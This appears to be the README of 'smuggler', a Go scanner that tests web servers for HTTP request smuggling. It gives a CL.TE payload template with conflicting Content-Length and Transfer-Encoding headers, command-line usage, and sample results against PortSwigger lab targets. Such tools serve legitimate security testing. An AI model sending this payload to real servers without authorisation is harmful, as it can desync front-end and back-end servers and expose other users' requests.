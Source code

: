 # smuggler
net/http makes it very challenging to send a request with malformed or duplicate headers. So for this application, it is more practical to parse a template and write it to a socket. This makes it simple to add your own payloads and may be useful for other things than request smuggling for ease of creating templates by copy/pasting from Burp.  
  
I took some ideas from this article https://www.synopsys.com/blogs/software-security/fuzzing-test-cases-not-all-random/ about the structure of the program. Separating the application into distinct sections being poet, courier, and oracle help make the code more reusable.



Templates:
```
POST {{.Path}} HTTP/1.1
Host: {{.Host}}
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G

```

Usage:
```
$ ./smuggler -h
Usage of ./smuggler:
  -proxy string
    	Set the Golang proxy, for example: http://example.com:8080
  -u string
    	Target URL
  -urls string
    	List of URLs

```

Example test on Portswigger labs:
```
$ ./smuggler -urls targets.test 
https://ac291f541e8bb695c0338e2700cd00fb.web-security-academy.net/ is vulnerable
https://ac761f071e92b6b8c0448fee001c0096.web-security-academy.net/ is vulnerable
https://acb71f6e1f079d25c08104be00290033.web-security-academy.net/ is vulnerable
```
